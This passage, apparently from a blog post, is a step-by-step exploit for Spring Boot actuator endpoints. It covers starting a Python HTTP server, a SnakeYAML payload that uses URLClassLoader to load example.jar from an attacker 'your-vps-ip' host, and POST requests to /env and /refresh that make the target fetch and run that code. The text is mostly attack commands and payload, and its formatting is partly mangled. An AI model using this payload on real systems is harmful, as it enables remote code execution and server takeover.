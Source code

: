 ```
# Use python to quickly start the http serverpython2 -m SimpleHTTPServer 80python3 -m http.server 80
```

Place yml an example.ymlfollowing contents:

```
!! javax.script.ScriptEngineManager [    !! java.net.URLClassLoader [[       !! java.net.URL [ " http : //your-vps-ip/example.jar " ] _ _ _ _ _ _    ]]]
```

Place jara . The content is the code to be executed. Please refer to [yaml-payload](https://github.com/artsploit/yaml-payload)example.jar for how to write and compile the code.

[](https://www.blogger.com/#)\
[](https://www.blogger.com/#)**Step 2:** Set the spring.cloud.bootstrap.location property

**spring 1.x**

```
POST /envContent - Type : application/x- www- form - urlencodedspring.cloud.bootstrap.location =http : //your-vps-ip/example.yml
```

**spring 2.x**

**\
**

```
POST /actuator/ envContent-Type: application/json{ "name" : "spring.cloud.bootstrap.location" , " value" : " http : //your-vps-ip/example.yml"}
```

[](https://www.blogger.com/#)**Step 3:** Refresh the configuration

**spring 1.x\
**

**\
**

```
POST /refreshContent - Type : application/x- www- form - urlencoded
```

**spring 2.x\
**

```
POST /actuator/ refreshContent-Type: application/json
```

#### Vulnerability Principle:

- The spring.cloud.bootstrap.location property is set to the URL address of the external malicious yml file

- refresh triggers the target machine to request the yml file on the remote HTTP server and get its content

